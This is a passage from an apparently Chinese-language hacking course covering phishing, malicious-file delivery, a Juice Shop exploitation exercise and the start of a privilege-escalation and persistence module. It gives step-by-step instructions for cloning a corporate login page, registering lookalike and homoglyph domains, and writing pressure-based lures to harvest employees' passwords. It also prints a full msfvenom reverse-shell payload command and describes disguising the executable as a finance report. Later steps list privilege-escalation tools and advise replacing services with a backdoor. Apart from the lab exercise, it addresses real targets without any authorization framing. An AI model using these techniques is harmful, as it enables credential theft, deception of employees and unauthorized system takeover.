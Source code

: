 #### **3. 社会工程学：攻心为上**

当技术无法突破时，人永远是捷径。

* **钓鱼攻击构建：**

  1. **侦察：** 确定目标使用的邮箱系统（如Outlook 365, Gmail）。
  2. **克隆网站：** 使用 `httrack` 或 `Social-Engineer Toolkit (SET)` 等工具，一键克隆目标邮箱的登录页面。
  3. **域名伪造：** 注册一个极易混淆的域名。如目标是 `futuretech.com`，你可以注册 `futuretech-support.com` 或 `futuretẹch.com` (注意 `e`是特殊字符)。
  4. **邮件编写：** 编写一封无法拒绝的邮件。利用**紧迫性**（“您的密码将于1小时后过期”）、**权威性**（“来自IT安全部门的通知”）、**利益**（“点击查看您的年终奖金明细”）。
  5. **发送：** 将包含假冒登录链接的邮件发送给目标员工。他们的密码会明文记录在你克隆的网站服务器上。
* **恶意文件投递：**

  1. **生成Payload:** 使用 `msfvenom`命令生成恶意载荷。
     `msfvenom -p windows/meterpreter/reverse_tcp LHOST=Your_IP LPORT=4444 -f exe -o report.exe`
  2. **捆绑：** 将 `report.exe`伪装成一份PDF或Word文档（修改图标，使用压缩文件技巧等），或者利用Office宏。
  3. **投递：** 将文件通过邮件发送给目标，标题可以是“请查收本季度财务报告”。一旦对方打开，你的Metasploit就会收到一个Shell。

#### **4. 实战演练**

**你的任务：**

1. 回到你在模块二中发现漏洞的OWASP Juice Shop。
2. 假设它是一个存在SQL注入漏洞的真实网站。在Exploit-DB或GitHub上找到一个通用的SQL注入利用工具（如 `sqlmap`）。
3. 阅读 `sqlmap`的文档，使用它来获取目标数据库的Shell或操作系统Shell。
4. 或者，针对你在模块二中发现的某个特定漏洞（如果Juice Shop有版本号），在Metasploit中寻找对应的Exploit模块。
5. 使用Metasploit成功获取Juice Shop服务器的Meterpreter Shell。
6. **交付物：** 一份文档，详细记录你从查找Exploit到最终获取Shell的每一步指令和关键截图。

---

### **模块四：长期驻留策略**

**目标：** 一次性的访问是廉价的。真正的价值在于持久、隐蔽的控制。本模块教你如何在目标系统里“安家落户”。

#### **1. 权限提升 (Privilege Escalation)**

你拿到的初始Shell通常是Web服务权限（如 `www-data`）或普通用户权限，权限极低。你需要成为系统的神：`root` (Linux) 或 `NT AUTHORITY\SYSTEM` (Windows)。

1. **信息搜集（提权前）：**
   * `whoami` / `id`: 我是谁？
   * `uname -a`: 内核版本是什么？（关键！可用于搜索内核漏洞）
   * `ps aux` (Linux) / `tasklist` (Windows): 有哪些进程在运行？有没有以更高权限运行的？
   * `sudo -l` (Linux): 当前用户能用sudo执行哪些特权命令？
2. **自动化提权向量发现：**
   * **Linux:** 上传并运行 `LinEnum.sh` 或 `linpeas.sh`。它们会自动检查系统配置错误、SUID文件、可写目录、内核版本等，并高亮显示可能的提权路径。
   * **Windows:** 上传并运行 `winPEAS.exe` 或 `PowerUp.ps1`。它们会检查未加引号的服务路径、AlwaysInstallElevated注册表键、存储的凭证等。
3. **利用：** 根据脚本的发现，采取行动。例如，如果发现一个内核漏洞，就去 `Exploit-DB`找对应的提权Exploit，编译并执行。如果发现一个可写的服务程序，就用你自己的后门程序替换它。

#### **2. 建立持久化后门 (Persistence)**

确保即使系统重启，你的访问权限依然存在。
